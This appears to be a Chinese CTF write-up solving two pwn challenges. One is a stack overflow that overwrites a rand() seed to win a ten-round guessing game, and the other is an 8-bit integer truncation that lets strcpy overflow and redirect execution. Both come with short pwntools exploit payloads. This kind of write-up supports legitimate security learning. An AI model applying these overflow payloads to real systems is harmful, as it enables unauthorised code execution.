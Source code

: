 主要的函数逻辑就是  猜数字，才对10次， 我们直接得到flag， 

我们注意到这个函数的种子在栈中，输入名字的时候又存在一个栈溢出，我们可以直接利用栈溢出去修改掉种子，

首先先得到一个种子为1的时候十个随机数：

```c
#include<stdio.h>
#include<stdlib.h>

int main(void){
   srand(1);
   for (int i = 0; i < 10; i ++){
       int test = rand() % 6 + 1;
       printf("%d,", test);
   }
   return 0;
}
```

得到：2,5,4,2,6,2,5,1,4,2

然后exp：

```python
payload = b'a'*32+p64(1)
p.sendlineafter("name:", payload)
arr = [2,5,4,2,6,2,5,1,4,2]
for i in range(10):
    p.sendlineafter("number:", str(arr[i]))
```

# int overflow

这个题目比较奇特的位置， 第一个输入点是一个确定的1， 应该是所有的输入点都不存在溢出，

但是后面的这个strcpy位置， 表面看是先确定了长度以后在进行的， 应该不存在溢出，

![](https://img-blog.csdnimg.cn/20200305010653529.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dsel9sY180,size_16,color_FFFFFF,t_70)

但是c语言存在数据溢出会被自动舍弃掉的概念：
![](https://img-blog.csdnimg.cn/20200305010706917.png)

这个v3最大值为0xff， 即最大为255， 则256就为0
![](https://img-blog.csdnimg.cn/20200305010716496.png)

我们输入269 会自动舍弃高位，就为4， 这时候复制一个269长度的字符串，就会造成溢出，

```python
p.sendlineafter("username:", 'aaa')
p.recvuntil("passwd:")
payload = b'a'*0x14 + b'a'*4 + p32(0x804868B) + b'a'*232
p.sendline(payload)
```